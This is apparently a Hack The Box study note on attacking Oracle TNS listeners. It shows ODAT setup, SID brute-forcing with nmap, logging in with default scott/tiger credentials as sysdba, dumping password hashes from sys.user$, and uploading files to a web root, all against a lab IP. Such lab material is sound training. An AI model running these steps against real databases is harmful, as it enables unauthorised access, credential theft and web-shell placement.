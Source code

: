 

## Packages to Install (Before TNS Enumeration)

**Oracle-Tools-setup.sh**

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

## Test Installation (ODAT)

```bash
./odat.py -h
```

Expected banner shows ODAT usage/help.

## Nmap Oracle TNS Scan

```bash
sudo nmap -p1521 -sV 10.129.204.235 --open
```

Example result:

```
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
```

Notes on `SID` (from your text): Oracle RDBMS uses a System Identifier to select the specific database instance. Incorrect SID causes connection failure. Default may come from `tnsnames.ora`.

## Nmap – SID Bruteforcing

```bash
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

Example finding:

```
| oracle-sid-brute: 
|_  XE
```

## ODAT – Enumerate

```bash
./odat.py all -s 10.129.204.235
```

Example output includes:

```
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured.
[+] Valid credentials found: scott/tiger.
```

## SQLplus – Log In (after finding creds)

```bash
sqlplus scott/tiger@10.129.204.235/XE
```

Example:

```
ORA-28002: the password will expire within 7 days
Connected to: Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
```

## Error Fix (sqlplus lib)

```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

## Interaction with Oracle RDBMS (SQL*Plus)

List tables:

```sql
select table_name from all_tables;
```

Example:

```
DUAL
SYSTEM_PRIVILEGE_MAP
...
```

User role privs:

```sql
select * from user_role_privs;
```

Example:

```
SCOTT  CONNECT  NO YES NO
SCOTT  RESOURCE NO YES NO
```

## As SYSDBA (Database Enumeration)

```bash
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

Example `user_role_privs` output shows many roles for `SYS` (truncated in your text).

## Extract Password Hashes

```sql
select name, password from sys.user$;
```

Example (truncated in your text):

```
SYS     FBA343E7D6C8BC9D
SYSTEM  B5073FE1DE351687
OUTLN   4A3BA55E08595C81
...
```

## File Upload (ODAT UTL_FILE)

Prepare file, then upload:

```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

Example result shows file created at `C:\inetpub\wwwroot\testing.txt`.

Default web roots (from your text):

- Linux: `/var/www/html`
    
- Windows: `C:\inetpub\wwwroot`
    

## HTB Guide (from your text)

Download instant client, set env, clone `odat`, install deps (as listed).

Enumerate:

```bash
python3 odat.py all -s STMIP
```

Example: find `XE` SID and `scott/tiger`.

Connect as sysdba:

```bash
sqlplus scott/tiger@STMIP/XE as sysdba
```

Retrieve `DBSNMP` hash:

```sql
select name, password from sys.user$ where name = 'DBSNMP';
```

Example:

```
DBSNMP  E066D214D5421CCC
```
